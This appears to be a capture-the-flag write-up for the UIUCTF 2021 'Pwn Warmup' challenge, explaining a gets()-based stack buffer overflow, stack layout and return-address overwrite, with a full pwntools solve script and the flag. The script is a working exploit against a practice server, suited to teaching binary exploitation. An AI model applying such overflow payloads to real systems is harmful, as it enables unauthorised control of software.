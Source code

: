 # Pwn Warmup - 50 pts, 214 solves
> Hmm this time we arent just going to give you the flag like last year... What can you do?!
> 
> nc pwn-warmup.chal.uiuc.tf 1337
> 
> challenge

`Pwn Warmup` was a pwn (binary exploitation) challenge in UIUCTF 2021, where I played with `TeamlessCTF`, placing 12th place overall. Although my team solved this challenge before I got a chance to during the CTF, I wanted to make a writeup for it anyways.

We first decompile the `main` function in Ghidra (Ghidra is a C decompiler developed by the NSA, and can be found at https://ghidra-sre.org/):

```C
void main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("This is SIGPwny stack3, go");
  printf("&give_flag = %p\n",give_flag);
  vulnerable();
  return;
}
```

It seems that the challenge first calls `setvbuf` to help input/output to work in the remote connection, and then prints out the address of the `give_flag` function. Then, the program calls the `vulnerable` function, which (of course) is vulnerable. Let's look at the decompilation:

```C
void vulnerable(void)

{
  char buf [8];
  
  gets(buf);
  return;
}
```

Hmmm... The program calls `gets()` on the `buf` variable. Let's read from the man page of `gets`:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

In case you didn't notice:

> Never use this function.

OK. So the program is using an insecure function. Why is `gets()` insecure? According to the man page, `gets` reads input from standard input until a newline, and then *writes it to memory*. No check for how much memory is being written to, so we can overwrite whatever we want in nearby memory by giving the program more input than it is prepared to handle. Let's visualize the memory:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

`buf` is the area we write to, and the saved ebp and saved eip are the places where the program has saved registers for when the program returns to the function from which it was called. If we overwrite it with an address, we can control where the program jumps to after the `vulnerable()` function is done. Luckily for us, the program has provided us with a `give_flag` function that prints out the flag. So our goal is to overwrite the saved eip with the address of give_flag.

**Sidenote: What are ebp and eip and why are they saved on the stack (memory) right now?**
The CPU of a computer has multiple registers, each able to hold a value. In a 32-bit program, the registers each hold 4 bytes (32 bits). The ebp register stores the base address of the stack while the eip register stores the address of the current instruction the program is executing. When a program calls a function, it must store where to return to after the function is called. So, when a function is called ebp and eip are stored on the stack, and are returned to the registers when `ret` is called. So, if we overwrite the saved eip, we can hijack the control flow of the program because we are changing where the program jumps to after the function is finished.

How do we do this? Let's examine memory again.

Let's say we input `AAAAAAAA` into the program. Then the program writes the input to `buf`:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

The program functions as normal, because we did not give more input that it could take. But what if we inputted more text?

Let's say we inputted `AAAAAAAAAAAAAAAAAAAA` (24 `A`s) into the program. Now our memory looks like this:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
```

Our saved eip is now `0x41414141` (note that 0x41 is the hex value of `A` so our `A`s are getting written to the saved eip). This will cause a segmentation fault because the program is trying to jump to the address `0x41414141` but doesn't work because there isn't actually any memory at `0x41414141`. Progress! We crashed the program.

So what if we changed our `0x41414141` with something a little more controlled... Let's say the address of `give_flag`. Luckily, our program prints out the address of `give_flag` when we run it. So, all we need to do is:

- send 20 `A`s to get through `buf` and ebp
- send the address of `give_flag` to overflow eip

Hold on. We can't literally send the numbers that represent the address of `give_flag`, we need to send them in the format that the program expects addresses. We need to send the address as hex, and in *little endian*. This means that we translate our address from hex to ASCII and send it in backwards.

Now, this all seems kind of complicated. But don't fear! We have a trusty python package to do this for us, including formatting the address in little endian and sending those unprintable characters to the server!

We will use the `pwntools` python package, which has all sorts of tools for pwn challenges. We can start a pwntools script:

```python
#!/usr/bin/env python3

from pwn import * # import pwntools

conn = remote("pwn-warmup.chal.uiuc.tf", 1337) # connect to the remote server
``` 

OK! We have a script that will connect to the remote server. Now, we use our program to programatically get the address of `give_flag` that was printed out:

```python
conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)
```

We recieve the input up to `&give_flag = `, then we recieve the rest of the line, which is simply the address in hex. We convert this to an `int`.

Now, it's time to build our payload. We first need 20 `A`s and then the address of `give_flag`. Remember the little endian stuff? Pwntools has a function, `p32`, that will format an address to little endian for 32-bit programs such as this one. (it uses `struct.pack` behind the scenes if you want to figure out what it's doing)

```python
payload = b"A" * 20 # 20 As
payload += p32(give_flag) # format our address in little endian
```

So now we have a payload that will overwrite the saved eip (the return address) with the address of `give_flag`. We send it with pwntools:

```python
conn.sendline(payload) # send the payload to the server
conn.stream() # print the output
```

And with that, we get the flag printed out for us.

Flag: `uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}`

Full solve script:

```python
#!/usr/bin/env python3

from pwn import *

conn = remote("pwn-warmup.chal.uiuc.tf", 1337)

conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)

payload = b"A"*20
payload += p32(give_flag)

conn.sendline(payload)

conn.stream()
```
